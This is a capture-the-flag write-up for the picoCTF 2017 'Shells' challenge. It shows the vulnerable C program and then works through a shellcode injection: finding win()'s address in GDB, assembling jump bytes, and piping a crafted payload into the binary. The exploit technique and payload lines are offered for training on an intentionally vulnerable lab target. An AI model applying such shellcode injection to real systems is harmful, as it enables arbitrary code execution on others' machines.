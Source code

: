 ## Writeup Shells
###picoCTF2017

The objective is try to get the flag of this level. The information that is given is the binary (wich is running in a certain IP:port) and the soruce code of it: 


```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>

#define AMOUNT_OF_STUFF 10

//TODO: Ask IT why this is here
void win(){
    system("/bin/cat ./flag.txt");    
}


void vuln(){
    char * stuff = (char *)mmap(NULL, AMOUNT_OF_STUFF, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
    if(stuff == MAP_FAILED){
        printf("Failed to get space. Please talk to admin\n");
        exit(0);
    }
    printf("Give me %d bytes:\n", AMOUNT_OF_STUFF);
    fflush(stdout);
    int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
    if(len == 0){
        printf("You didn't give me anything :(");
        exit(0);
    }
    void (*func)() = (void (*)())stuff;
    func();      
}

int main(int argc, char*argv[]){
    printf("My mother told me to never accept things from strangers\n");
    printf("How bad could running a couple bytes be though?\n");
    fflush(stdout);
    vuln();
    return 0;
}

```

Notice that the funcion `win()` seems to retrieve information about the flag, but there is no call to this function in the `main()` or `vuln()` function.

If you execute the program you'll realise that it asks for entering some bytes in the variable `stuff`, and it may be a good place to exploit.

So what we'll gonna try is to insert some code that makes the program "jump" to the `win()` function.

Although we have the binary, we compile it again with the following options: 

`gcc -fno-stack-protector -z execstack -m32 -o shells.out shells.c`

In this case we use `-fno-stack-protector` so there's no stack protection and `-m32` cause the original binary is 32bits.

We'll use GDB to debug the binary:

```
$ gdb -q shells.out               
Reading symbols from shells.out...(no debugging symbol
s found)...done.                                      
(gdb)                                                 
```
What we want to know is the address for the `win()` function.

```
(gdb) p win                                           
$1 = {<text variable, no debug info>} 0x804853b <win> 
(gdb)                                                 

```

For this case what we want the execution of the program to jump to this address. The solution is to write some code that can be inserted in `stuff` and the executed:

```asm
mov eax, 0x804853b
call eax
````
*If you are using a 64bit binary you can use `rax` register.*

If you Assemble  de code you'll get the following string:
*(Online Assembler: https://defuse.ca/online-x86-assembler.htm)*

```

"\xB8\x3B\x85\x04\x08\xFF\xD0"

```

That's the string we should use to jump to the `win()` function.

Finally we save this string to a file:

```
python -c "print('\xB8\x3B\x85\x04\x08\xFF\xD0')" >payload

```

And the we use it to run the binary:
```
cat payload - | shell.out

```



















